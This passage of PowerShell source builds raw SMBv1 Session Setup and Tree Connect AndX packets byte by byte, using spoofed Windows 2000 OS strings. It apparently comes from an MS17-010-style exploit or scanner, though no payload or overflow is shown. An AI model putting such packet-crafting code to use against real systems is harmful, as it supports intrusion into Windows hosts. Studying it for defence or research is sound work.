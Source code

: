     $pkt += 0x00,0x00               # UserID
    $pkt += 0x40,0x00               # MultiplexID

    $pkt += 0x0d                   # Word Count
    $pkt += 0xff                   # No further commands
    $pkt += 0x00                   # Reserved
    $pkt += 0x88,0x00               # AndXOffset
    $pkt += 0x04,0x11               # Max Buffer
    $pkt += 0x0a,0x00               # Max Mpx Count
    $pkt += 0x00,0x00               # VC Number
    $pkt += 0x00,0x00,0x00,0x00       # Session key
    $pkt += 0x01,0x00               # ANSI pw length
    $pkt += 0x00,0x00               # Unicode pw length
    $pkt += 0x00,0x00,0x00,0x00       # Reserved
    $pkt += 0xd4,0x00,0x00,0x00       # Capabilities
    $pkt += 0x4b,0x00               # Byte count
    $pkt += 0x00                   # ANSI pw
    $pkt += 0x00,0x00               # Account name
    $pkt += 0x00,0x00               # Domain name

    # Windows 2000 2195
    $pkt += 0x57,0x00,0x69,0x00,0x6e,0x00,0x64,0x00,0x6f,0x00,0x77,0x00,0x73,0x00,0x20,0x00,0x32
    $pkt += 0x00,0x30,0x00,0x30,0x00,0x30,0x00,0x20,0x00,0x32,0x00,0x31,0x00,0x39,0x00,0x35,0x00
    $pkt += 0x00,0x00

    # Windows 2000 5.0
    $pkt += 0x57,0x00,0x69,0x00,0x6e,0x00,0x64,0x00,0x6f,0x00,0x77,0x00,0x73,0x00,0x20,0x00,0x32
    $pkt += 0x00,0x30,0x00,0x30,0x00,0x30,0x00,0x20,0x00,0x35,0x00,0x2e,0x00,0x30,0x00,0x00,0x00

    return $pkt
}


function tree_connect_andx_request($Target, $userid) {

     [Byte[]] $pkt = [Byte[]](0x00)              #$pkt +=Message_Type'
     $pkt +=0x00,0x00,0x47       #$pkt +=Length'


     $pkt +=0xFF,0x53,0x4D,0x42  #$pkt +=server_component': .SMB
     $pkt +=0x75              #$pkt +=smb_command': Tree Connect AndX
     $pkt +=0x00,0x00,0x00,0x00  #$pkt +=nt_status'
     $pkt +=0x18              #$pkt +=flags'
     $pkt +=0x01,0x20          #$pkt +=flags2'
     $pkt +=0x00,0x00          #$pkt +=process_id_high'
     $pkt +=0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00  #$pkt +=signature'
     $pkt +=0x00,0x00          #$pkt +=reserved'
     $pkt +=0x00,0x00          #$pkt +=tree_id'
     $pkt +=0x2F,0x4B          #$pkt +=process_id'
     $pkt += $userid              #$pkt +=user_id'
     $pkt +=0xC5,0x5E           #$pkt +=multiplex_id'
